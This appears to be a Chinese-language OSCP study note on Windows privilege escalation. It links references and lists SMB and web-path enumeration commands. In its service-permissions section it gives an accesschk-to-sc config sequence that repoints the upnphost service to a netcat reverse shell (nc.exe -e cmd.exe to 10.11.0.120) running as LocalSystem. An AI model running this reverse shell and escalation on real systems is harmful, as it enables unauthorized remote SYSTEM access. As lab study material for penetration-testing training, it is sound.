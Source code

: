 # Learn OSCP





- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

#### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script=smb-xxx x.x.x.x
```







##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



#####  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



##### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



##### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

##### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)

3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)


# ChangeLog
- 20190701 init

